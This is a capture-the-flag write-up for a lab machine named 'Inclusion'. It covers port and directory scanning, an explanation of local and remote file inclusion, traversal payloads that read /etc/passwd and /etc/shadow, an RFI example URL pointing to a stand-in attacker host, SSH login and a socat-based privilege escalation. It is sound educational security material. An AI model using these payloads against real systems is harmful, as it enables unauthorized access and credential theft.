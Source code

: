 # INCLUSION

##### Written: 17/05/2021

##### IP Address: 10.10.16.93

======================

First, let's run a basic **nmap** scan on the target machine with standard scripts loaded and version enumeration configured. 

```
sudo nmap -sC -sV -vv 10.10.16.93
```

**Results:**

<img style="float: left;" src="screenshots/screenshot1.png">

As we can see, there are two services running on the target machine: **SSH** and **HTTP**. For the HTTP server, we can see that the http-title is **'My blog'**.

Let's first check out the HTTP webserver. Navigating to the website in our web browser, we come to this webpage:

<img style="float: left;" src="screenshots/screenshot2.png">

Before conducting our happy-path enumeration, we can start a **Gobuster** directory scan to see if we can obtain any hidden directories.

```
gobuster dir -u http://10.10.16.93 -x php,js,txt -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

We make sure to include common extensions in our enumeration, such as **.php** and **.js**. We will also use Dirbuster's directory-list-2.3-medium.txt as the wordlist.

While the scan is going on, let's explore the website. First I checked the source code to see if there was any additional information, such as comments left behind by the developer. There was none unfortunately.

Next, I tried some low-hanging fruit such as visiting **/robots.txt** but those did not result in anything of value.

When I typed something into the search bar on the top right of the webpage and pressed search, I was redirected back to the homepage. Since this CTF room is called 'Inclusion', will I have to carry out some form of **Local File Inclusion attack** using this search field?

At the bottom of the web page, there were three sections dedicated to different paragraphs of text. Looks like they taught us more about Local File Inclusion (LFI) and Remote File Inclusion (RFI) attacks! This will be useful as I currently have no idea what those attacks are. Clicking on the 'View Details' button below the sections brought me to pages with just text in them. I checked the source code for each of these dedicated pages but there was nothing of value.

Time to learn more about LFI and RFI attacks.

<br>

### Local File Inclusion

From my research, I learnt that Local File Inclusion attacks occur when a web page takes in a **file path** as input in order to access a file that exists locally (on the webserver). However, if the developer does not conduct proper input sanitization, attackers can exploit this by passing in a path that leads to another file. Below is an example of proper usage of file inclusion:

```
https://example.com/?module=contact.php
```

Here, the web server is taking an input **'module'** and the value to be the file **'contact.php'**. Of course, it would seem that contact.php is in the same directory as the calling file, and hence the name can be inputted directly.

What an attacker can then do is to replace contact.php with another path that leads to another file, such as this:

```
https://example.com/?module=../../../../../../../etc/shadow
```

*(Note that the many ../../../../../../ is used for directory traversal to bring the current directory back to the / directory on the local filesystem)*

Now the contents of the local **/etc/shadow** file will be returned, which is clearly not something that should happen.

If the attacker has managed to upload a malicious file onto the webserver, let's say a .php script that sets up a reverse shell, then they can also use the LFI attack to make the web server call the malicious.php file that they've uploaded. The web server will then execute the script:

```
https://example.com/?module=../../../uploads/malicious.php
```

<br>

### Remote File Inclusion

In essence, RFI attack vulnerabilities stem from the same root issue as LFI attacks. The only difference is that instead of providing a path to a file on the local filesystem, the attacker instead provides a url to another web server (controlled by the attacker) to execute malicious code that is hosted on that web server. For example:

```
http://example.com/?file=http://attacker.example.com/evil.php
```

<br>

Now that I had a better understanding of how LFI and RFI attacks work, I could try to execute the attack against the target machine. First, I tried to find points within the web page in which I could mount that attack. 

At first, I tried to use the search field to see if the web server accepted any input parameter. However, every time I searched for something, I noticed that I was simply being redirected back to the home page. Furthermore, I could tell from the URL that there was not any input being taken in:

<img style="float: left;" src="screenshots/screenshot3.png">

<br>

Next, I checked whether the web server took inputs when I clicked on the **'View Details'** buttons located at the bottom of the webpage. Sure enough, they did indeed practiced file inclusion, which means that I could attempt to mount an attack there!

<img style="float: left;" src="screenshots/screenshot4.png">

It seemed that the web server was taking in an input **'name'** and the filename that produced the wall of text shown on the page was called **'hacking'**.

I'll try to change **'hacking'** to **'../../../../../etc/passwd'** to see if I can read the /etc/passwd file.

<img style="float: left;" src="screenshots/screenshot5.png">

The attack worked! The contents of the **/etc/passwd** file is displayed by the web server. Next, I'll try if I can read the **/etc/shadow** file. If I can do so, I'll be able to obtain the credentials of users on the machine, such as root.

<img style="float: left;" src="screenshots/screenshot6.png">

Sure enough, I could read the **/etc/shadow** file, which is great. From the file, I can see that there is a user account called **FalconFeast**. At first, I was going to use **John the Ripper** to crack the password of FalconFeast using the hashed password found in the /etc/shadow file. However, looking closer at the /etc/passwd file, I noticed a comment in the file:

 <img style="float: left;" src="screenshots/screenshot7.png">

On the right, we can see the text **'falconfeast:rootpassword'** Could **'rootpassword'** be the password for falconfeast? To test this, I tried to ssh into falconfeast's account using the password:

<img style="float: left;" src="screenshots/screenshot8.png">

Nice, that was his password after all. 

**With that, I was able to log into falconfeast's account and obtain the user flag from his home directory.**

---

Since I'm already in the machine, I could try to escalate my privileges from the inside. Before using a privilege escalation automation script like **linpeas**, I first did some manual enumeration first. 

First, I ran the command

```
sudo -l
```

to see what sudo privileges that falconfeast had.

<img style="float: left;" src="screenshots/screenshot9.png">

Looks like he can run **socat** as root! Next, I went to **GTFOBins** to see if there were any vulnerabilities that I could exploit with this binary.

After looking through GTFOBins, I decided to use socat to spawn a shell as root

<img style="float: left;" src="screenshots/screenshot10.png">

After running the command above, I managed to spawn a shell as root:

<img style="float: left;" src="screenshots/screenshot11.png">

**With that, I can easily navigate towards root's home directory and obtain the root flag**

